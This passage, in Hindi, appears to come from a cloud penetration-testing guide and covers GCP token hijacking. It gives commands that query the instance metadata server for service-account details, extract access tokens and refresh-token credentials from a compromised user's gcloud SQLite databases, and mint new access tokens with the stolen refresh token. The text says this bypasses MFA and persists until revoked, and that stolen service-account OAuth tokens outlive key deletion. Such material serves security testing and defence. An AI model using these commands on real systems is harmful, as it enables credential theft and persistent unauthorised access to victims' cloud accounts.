 इसके अलावा, ध्यान दें कि होस्ट से आप एक सर्विस अकाउंट टोकन पा सकते हैं:
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
निम्नलिखित स्कोप्स के साथ:
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
## टोकन हाइजैकिंग

### प्रमाणित उपयोगकर्ता

यदि आप **GCP में प्रमाणित उपयोगकर्ता** के होम फोल्डर तक पहुँचने में सफल होते हैं, तो **डिफ़ॉल्ट रूप से**, आप उस उपयोगकर्ता के लिए टोकन प्राप्त कर सकेंगे जब तक आप चाहें बिना प्रमाणित हुए और उस मशीन पर निर्भर किए बिना जिससे आप उसके टोकन का उपयोग कर रहे हैं और यहाँ तक कि अगर उपयोगकर्ता ने MFA कॉन्फ़िगर किया हो।

यह इसलिए है क्योंकि डिफ़ॉल्ट रूप से आप **रिफ्रेश टोकन का उपयोग जितनी देर चाहें कर सकते हैं** नए टोकन उत्पन्न करने के लिए।

उपयोगकर्ता के वर्तमान टोकन को प्राप्त करने के लिए आप चला सकते हैं:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
```
एक नया एक्सेस टोकन जनरेट करने के लिए विवरण प्राप्त करने के लिए चलाएं:
```
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

नया ताज़ा एक्सेस टोकन प्राप्त करने के लिए रिफ्रेश टोकन, क्लाइंट आईडी, और क्लाइंट सीक्रेट के साथ निम्नलिखित चलाएं:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

### सर्विस अकाउंट्स

जैसे कि प्रमाणित उपयोगकर्ताओं के साथ, यदि आप **सर्विस अकाउंट की प्राइवेट की फाइल को समझौता करने में सफल होते हैं**, तो आप आमतौर पर **जितना चाहें उतनी देर तक इसे एक्सेस कर सकते हैं**।\
हालांकि, यदि आप सर्विस अकाउंट का **OAuth टोकन चुरा लेते हैं** तो यह और भी दिलचस्प हो सकता है, क्योंकि, यद्यपि डिफ़ॉल्ट रूप से ये टोकन केवल एक घंटे के लिए उपयोगी होते हैं, अगर **पीड़ित प्राइवेट एपीआई की को हटा देता है, तो OAuh टोकन तब तक मान्य रहेगा जब तक यह समाप्त नहीं हो जाता**।
